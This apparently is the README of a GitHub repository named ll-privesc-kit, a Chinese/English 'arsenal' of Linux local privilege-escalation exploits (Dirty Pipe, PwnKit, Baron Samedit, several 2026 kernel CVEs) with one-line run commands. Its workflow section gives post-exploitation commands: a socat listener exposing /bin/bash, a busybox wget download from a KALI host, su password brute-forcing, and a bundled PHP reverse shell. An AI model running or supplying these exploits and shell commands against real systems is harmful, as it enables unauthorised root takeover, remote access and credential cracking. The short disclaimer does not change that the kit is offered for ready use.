

<div align="center">

# 🚀 ll-privesc-kit

**Linux 本地提权武器库 · Linux Privilege Escalation Arsenal**

[](#)
[](#)
[](#)
[](#)
[](#)

收集了近年 **杀伤范围最广、利用最稳定** 的 Linux 本地提权漏洞 PoC，覆盖内核、sudo、polkit、PackageKit 等攻击面。配套信息收集、密码爆破、反弹 Shell 等后渗透工具，开箱即用。

A curated collection of **the most widely-impacting & reliable** Linux LPE exploits (kernel, sudo, polkit, PackageKit) plus post-exploitation tooling — drop-in ready.

<br>

</div>

---

## ⚠️ 免责声明

<details>
<summary><b>点击展开</b></summary>

> 本工具集仅供授权渗透测试、安全研究及 CTF 竞赛使用。未经授权访问或破坏任何系统均属违法行为，使用者自行承担一切后果。

</details>

---

## 📋 漏洞速查

| # | CVE | 漏洞名称 | 攻击面 | 影响范围 | 一句话执行 |
|---|-----|----------|--------|----------|------------|
| 01 | CVE-2026-31431 | Copy Fail | 内核 AF_ALG 页缓存写原语 | Kernel 4.14 ~ 2026-04 | `./01copyfail/copyfail` |
| 02 | CVE-2022-0847 | Dirty Pipe | 内核 pipe 页缓存覆写 | Kernel 5.8 ~ 5.16.11 | `./02dirtypipe/root` |
| 03 | CVE-2021-4034 | PwnKit | polkit pkexec OOB 写 | 全部发行版 (2009~2022) | `cd 03pwnkit && make && ./cve-2021-4034` |
| 04 | CVE-2025-32463 | chwoot | sudo -R 路径穿越 | sudo 1.9.14 ~ 1.9.17 | `bash 04chwoot/chwoot.sh` |
| 05 | CVE-2026-41651 | pack2theroot | PackageKit TOCTOU | PackageKit < 1.3.5 | `python3 05pack2theroot/cve_2026_41651.py` |
| 06 | CVE-2021-3156 | Baron Samedit | sudo 堆溢出 | sudo 1.8.2 ~ 1.9.5p1 | `python3 06sudo3165/exploit_nss.py` |
| 07 | CVE-2026-43284 / CVE-2026-43500 | Dirty Frag | 内核 xfrm-ESP / RxRPC 页缓存写 | Kernel 2017-01 ~ 2026-05 | `./07dirtyfrag/dirtyfrag` |
| 08 | CVE-2026-46300 | Fragnesia | 内核 XFRM ESP-in-TCP 页缓存写 | Kernel 2017-01 ~ 2026-05 | `./08fragnesia/fragnesia` |
| 09 | CVE-2026-46333 | ssh-keysign-pwn | ptrace 竞态 / pidfd_getfd FD 窃取 | 全部发行版 (2020~2026-05) | `cd 09key-sign-pwn && bash exploit.sh` |
| 10 | — | dirty-merge | 内核页缓存合并写原语 | — | 见目录内 README |
| 11 | CVE-2026-43494 | PinTheft | 内核 RDS zerocopy 双重释放 | - | `./11pintheft/poc` |

---

## 🗂️ 目录结构

```
ll-privesc-kit/
├── 01copyfail/      CVE-2026-31431    — AF_ALG page-cache write
├── 02dirtypipe/     CVE-2022-0847     — Dirty Pipe
├── 03pwnkit/        CVE-2021-4034     — PwnKit (polkit pkexec)
├── 04chwoot/        CVE-2025-32463    — sudo chroot path traversal
├── 05pack2theroot/  CVE-2026-41651    — PackageKit TOCTOU
├── 06sudo3165/      CVE-2021-3156     — Baron Samedit (sudo)
├── 07dirtyfrag/     CVE-2026-43284/43500 — Dirty Frag (ESP/RxRPC)
├── 08fragnesia/     CVE-2026-46300    — Fragnesia (XFRM ESP-in-TCP)
├── 09key-sign-pwn/  CVE-2026-46333    — ssh-keysign / chage FD theft
├── 10dirty-merge/   —            — dirty-merge (页缓存合并写原语)
├── 11pintheft/      CVE-2026-43494 — PinTheft (RDS zerocopy double-free)
│
├── 🛠️ linpeas.sh / lin2026.sh            ← linpeas 为最新官方同步版，llpeas 为旧版保留
├── 🛠️ pspy{32,64,64s}                    ← 进程监控
├── 🛠️ busybox                            ← 静态 BusyBox
├── 🛠️ socat                              ← 静态 socat
├── 🛠️ strace                             ← 静态编译 strace
├── 🛠️ subrute.sh                         ← su 字典爆破
├── 🛠️ generate_by_username.sh + muban.key ← 用户密码字典生成
│
├── 🔑 {5000,10000,20000,100000}.txt      ← rockyou.txt 高频密码
├── 🔗 LINKS.md                       ← 常用提权资源链接
```

---

## 🎯 典型工作流



```
低权限 Shell 入手
      │
      ├─ 信息收集
      │   ./linpeas.sh        ← 跑一遍，看哪些漏洞面可用
      │   ./pspy64            ← 蹲定时任务/高权限进程
      │   uname -r && sudo -V ← 确认内核和 sudo 版本
      │   lsmod | grep -E "esp4|esp6|rxrpc" ← 检测 Dirty Frag 攻击面
      │   sysctl kernel.yama.ptrace_scope   ← 检测 ssh-keysign-pwn 可行性
      │
      ├─ 选中漏洞 → 执行（见速查表）
      │   └── 失败？换下一个，总有能用的
      │
      ├─ 密码爆破（已知用户名时）
      │   bash generate_by_username.sh <user> > dict.txt
      │   bash subrute.sh <user> dict.txt
      │
      └─ 后渗透
          ./socat TCP-LISTEN:4444,fork EXEC:/bin/bash
          ./busybox wget http://KALI/tool -O /tmp/tool
```

---

## 🧰 工具集

| 工具 | 用途 |
|------|------|
| `linpeas.sh` / `llpeas.sh` | 本地提权枚举 — linpeas 为最新官方同步版（每半月自动更新），llpeas 为旧版保留 |
| `pspy32` / `pspy64` / `pspy64s` | 无需 root 的实时进程监控，捕获定时任务中出现的密码或可劫持脚本路径 |
| `busybox` | 静态编译 BusyBox，靶机缺 `wget`、`nc`、`awk` 等基础命令时直接顶上 |
| `socat` | 静态编译 socat，支持全双工通信、加密隧道、端口转发 |
| `strace` | 静态编译 strace，用于跟踪系统调用、调试漏洞利用过程 |
| `subrute.sh` | 基于字典对 `su` 进行本地密码爆破 |
| `generate_by_username.sh` + `muban.key` | 使用数百条用户名变体模板生成专属密码字典 |
| `reverse.php` / `reverse.txt` | pentestmonkey 经典 PHP 反弹 Shell（内容相同，扩展名不同；需修改 IP/端口）|
| `{5000,10000,20000,100000}.txt` | rockyou.txt 前 N 条高频密码 |

---

## 🧩 如何添加新漏洞

想让这个武器库更强大？遵循简单约定即可：

1. 新建目录 `NNname/` — 两位数序号 + 名称，如 `11my-exploit/`
2. 目录内放 README 说明漏洞信息、影响范围、用法
3. 每行加一个 `预编译 ELF` 和一份 `源码`，适配有/无编译环境
4. 在本页速查表加一行，树结构加一行

---

<div align="center">

**Happy Hacking** · 祝提权顺利
*Maintained by [yanxinwu946](https://github.com/yanxinwu946) @ [MazeSec](https://maze-sec.com)*

</div>


